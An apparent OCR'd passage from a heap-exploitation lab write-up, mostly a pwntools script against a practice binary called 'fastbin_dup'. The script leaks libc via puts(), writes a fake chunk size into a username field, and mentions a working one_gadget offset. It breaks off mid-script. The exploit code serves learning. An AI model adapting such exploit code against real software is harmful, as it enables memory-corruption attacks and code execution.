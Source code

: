 I tried using them one-by-one and `0xe1fa1` worked for me!

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'fastbin_dup')
libc = ELF(exe.libc.path, checksec=False) 

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

def malloc(size, data):
    global idx 
    idx += 1
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.recvuntil(b'size: ')
    io.sendline(f"{size}")
    io.recvuntil(b'data: ')
    io.sendline(data)
    return idx -1

def free(idx):
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b'index: ')
    io.sendline(f"{idx}")
    
# -- Exploit goes here --

io = start()

io.recvuntil(b'puts() @ ')

puts = io.recvline() # 0x7a03db46faf0
libc.address = int(puts, 16) - libc.sym.puts
log.success(f"libc base @ {hex(libc.address)}")

io.recvuntil(b'username:')

io.sendline(p64(0xdeadbeef) + p64(0x31))

"""
pwndbg> dq &user
0000000000602010     00000000deadbeef 0000000000000031
0000000000602020     0058585858585858 0000000000000000
"""

"""
1) malloc 0/7
2) free
3) target
4) quit
```